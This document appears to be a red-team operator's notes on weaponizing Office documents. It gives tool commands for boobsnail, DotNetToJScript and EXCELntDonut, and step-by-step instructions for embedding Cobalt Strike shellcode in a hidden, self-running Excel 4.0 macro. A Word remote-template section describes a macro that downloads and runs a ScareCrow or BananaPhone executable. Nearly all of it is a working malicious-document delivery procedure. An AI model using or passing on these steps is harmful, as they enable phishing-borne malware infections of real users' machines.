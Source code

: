 
	> XLS MACRO boobsnail https://github.com/STMSolutions/boobsnail
		- git clone https://github.com/STMSolutions/boobsnail.git
		- python3 boobsnail.py Excel4NtDonutGenerator --inputx86 /root/payloads/x86_raw.bin --inputx64 /root/payloads/x64_raw.bin --out /root/payloads/boobsnail.csv

	> JS DotNetToJScript https://github.com/tyranid/DotNetToJScript
		- git clone https://github.com/tyranid/DotNetToJScript
		> Build sln
	> DotNetToJScript https://github.com/tyranid/DotNetToJScript
		> git clone https://github.com/tyranid/DotNetToJScript.git C:\Tools\
		> C:\Program Files (x86)\MSBuild\14.0\Bin\MSBuild.exe C:\Tools\DotNetToJScript\DotNetToJScript.sln /property:Configuration=Release

The Excelntdonut payload is a bit of a process
EXCELntDonut -f CsharpFile.cs -o macrofile.txt

The CSharp file needs to be full fledged code that executes the Cobalt Strike shellcode (will post example on share)

Next, you take the macrofile.txt or whatever you name it and copy it all.

Open a new excel document up, right click on bottom header/sheet and insert excel 4.0 macro. Copy and past into A1 the contexts of macrofile.txt.

Go to data tab with everything highlighted and then "Text to columns", select delimited and give it a semicolon and click finish. The macro should now be in 3 columns.

Edit A1 to "Auto_Open", save as excel 97 .xls file (can also hide the macro sheet if you want) and should be good to go





Remote template - Word Macro ( I think John has some stuff posted in that penetration test tips document)

-I follow what fortynorthsecurity wrote below

https://fortynorthsecurity.com/blog/maldoc-fu-some-ideas-for-malicious-document-delivery/

-For execution I use the ControlPanelItem method from below with a scarecrow or bananaphone exe that the macro first downloads to disk

https://www.certego.net/en/news/advanced-vba-macros/